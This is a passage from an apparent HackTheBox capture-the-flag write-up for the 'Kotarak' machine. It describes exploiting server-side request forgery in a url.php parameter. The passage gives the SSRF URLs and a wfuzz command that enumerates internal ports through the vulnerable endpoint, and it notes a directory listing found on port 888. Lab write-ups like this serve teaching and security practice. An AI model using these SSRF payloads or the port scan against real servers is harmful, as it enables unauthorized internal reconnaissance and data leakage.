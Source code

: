 I make some tests to verify if I can exploit a possible **[SSRF](https://portswigger.net/web-security/ssrf){:target="_blank"}**, and I have the results I expected, the code is not sanitized and the input that as a user I can make is <ins>not being validated</ins>. With a **[SSRF](https://portswigger.net/web-security/ssrf){:target="_blank"}** I can leak information from the server and even make an enumeration of all open ports, as there may be **IPTable rules** or even a **Firewall** that is filtering communications. With `wfuzz` I find some open internal ports to which I did not have access before.

> **[Server-side request forgery](https://portswigger.net/web-security/ssrf){:target="_blank"}** is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location. In a typical **SSRF** attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials. 

```bash
python3 -m http.server 80
# http://10.129.1.117:60000/url.php?path=http%3A%2F%2F10.10.14.238
# :)

# http://10.129.1.117:60000/url.php?path=http://127.0.0.1:8080/
# http://10.129.1.117:60000/url.php?path=http://127.0.0.1:22/
# :)

wfuzz -c --hc=404 --hh=2 -z range,1-65535 'http://10.129.1.117:60000/url.php?path=http://127.0.0.1:FUZZ/'
# 22,90,110,200,320,888,3306,8080,60000
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can research on the **[services](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers){:target="_blank"}** that are possibly available on the list of ports I just listed and even access them from my browser by exploiting **SSRF**. Many of them are test but the last two look interesting as they are an authentication panel and the last one, available on port **888**, has **Directory listing** <ins>enabled</ins> so I can look for information that will allow me to engage the machine.

```html
# http://10.129.1.117:60000/url.php?path=http://127.0.0.1:320/                :)
# http://10.129.1.117:60000/url.php?path=http://127.0.0.1:888/                :)
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
